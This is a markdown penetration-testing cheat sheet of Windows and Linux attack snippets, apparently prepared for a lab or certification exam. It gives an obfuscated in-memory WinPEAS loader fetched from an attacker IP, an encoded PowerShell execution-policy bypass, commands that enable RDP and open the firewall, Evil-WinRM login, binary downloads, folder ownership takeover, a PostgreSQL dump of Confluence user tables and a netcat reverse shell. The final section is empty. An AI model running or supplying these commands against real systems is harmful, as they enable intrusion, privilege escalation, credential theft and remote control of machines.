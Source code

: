 ### WinPEAS In-memory Obfuscated Execution:
``` powershell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://192.168.45.172:8000/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")

powershell.exe -NoP -NonI -Exec Bypass -encodedCommand JAB3AHAAPQBbAFMAeQBzAHQ...

```
### Enable RDP:
```
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0

Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
```
### Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -p "qwertqwertqwert123\!\!"
```

### Good Nmap Scan:
```
sudo nmap -A -Pn -n 172.16.248.10
```
### PowerShell Download Binary:
``` powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
### Take control of Windows folder in PowerShell:
``` powershell
icacls "C:\Path\to\folder" /setowner "<youruser>" /T /C
```
### PostgreSQL workings:
``` powershell
#Connect to server
psql -h <ip> -p <port> -U postgres

#List datbases (exit with q)
\l

#Connect to database
\c <databasename>

#Dump from table
SELECT * FROM <tablename>;

#Confluence server example:
\c confluence
SELECT * FROM cwd_user;
```
### Powershell Wget:
```powershell
powershell wget -Uri <url> -OutFile <outfile>
```
### Netcat reverse shell:
```bash
nc.exe -e cmd.exe <remoteip> <port>
```
### Apache web server:
```bash
```